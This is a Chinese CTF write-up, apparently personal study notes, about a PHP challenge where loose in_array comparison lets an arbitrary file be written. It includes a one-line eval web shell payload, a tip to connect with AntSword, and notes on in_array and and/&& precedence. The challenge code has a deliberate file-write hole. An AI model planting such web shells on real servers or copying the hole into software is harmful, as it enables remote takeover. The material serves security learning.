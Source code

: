 php代码

```php
<?
highlight_file(__FILE__);
$allow = array();
for ($i=36; $i < 0x36d; $i++) { 
    array_push($allow, rand(1,$i));
}
if(isset($_GET['n']) && in_array($_GET['n'], $allow)){
    file_put_contents($_GET['n'], $_POST['content']);
}
?> 
```

思路：看代码，array_push是将值加入到数组中，通过Get参数n参数一个值，使得该值在数组中。

payload：

```
n=1.php    post:content=<?php @eval($_POST[1]);?>
然后蚁剑连接。
```

知识点

```php
官方文档：https://www.php.net/manual/zh/function.in-array.php
in_array — 检查数组中是否存在某个值
in_array(mixed $needle, array $haystack, bool $strict = false): bool
参数
needle，待搜索的值。
注意:如果 needle 是字符串，则比较是区分大小写的。
haystack，待搜索的数组。
strict，如果第三个参数 strict 的值为 true 则 in_array() 函数还会检查 needle 的类型是否和 haystack 中的相同。一般默认是false
返回值：
如果找到needle,则返回true，否则返回false
```

所以，当strict为false时，in_array就相当于==，不会比较类型，只比较值。

## 14.and与&&，or与||的区别--优先级  

```php
主要区别在优先级上面
<?php
$t1=true and false;
$t2=true && false;
var_dump($t1,$t2);
?>
t1返回的是true，t2返回的是false
优先级：&&>=>and

or与||同理可得
```
